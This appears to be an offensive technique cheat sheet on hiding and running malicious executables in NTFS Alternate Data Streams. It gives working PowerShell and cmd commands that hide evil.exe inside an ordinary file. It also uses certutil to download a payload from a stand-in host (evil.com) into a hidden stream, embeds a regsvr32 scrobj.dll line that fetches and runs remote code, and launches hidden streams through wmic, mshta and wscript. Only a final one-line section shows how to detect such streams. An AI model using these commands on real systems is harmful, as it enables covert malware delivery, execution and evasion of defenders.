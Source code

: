 # Alternate Data Streams (ADS)

It is possible to hide malicious executables within files by NTFS attributes. There are various ways to do that.

## Hiding

- Basic

    The most simple and basic way to hide files into another file, use `type` command. The `file.txt` must already exist in the system.

    ```powershell
    cmd /c "type .\evil.exe > .\file.txt:evil.exe"
    ```

    To execute the malicious executable, run the command `.\file.txt:evil.exe`.

- Certutil

    The `certutil` command can hide external executables within `file.txt`. The `file.exe` must already exist in the system.

    ```powershell
    certutil -urlcache -split -f https://evil.com/evil.exe .\file.txt:evil.exe
    ```

    To execute the malicious executable, run the command `.\file.txt:evil.exe`.

- Regsvr32

    This command writes code `regsvr32.exe /s /u /i:http://10.0.0.1/evil.exe scrobj.dll` to `payload.bat` and hide it within the `file.docx`. The `file.docx` must already exist in the system.

    ```powershell
    cmd /c "echo regsvr32.exe /s /u /i:https://evil.com/evil.exe scrobj.dll > file.docx:evil.bat"
    ```


## Executing

To execute ADS, we can use various methods:

```powershell
.\file.txt:evil.exe
cmd /c start "" "file.docx:payload.bat"
wmic process call create "C:\file.txt:evil.exe"

# for JavaScript
mshta "C:\file.txt:evil.hta"
wscript C:\file.txt:evil.js
```

## Revealing

The command reveals an information of Alternate Data Stream in arbitrary file ('file.txt').

```powershell
cmd /c dir /r .\file.txt
```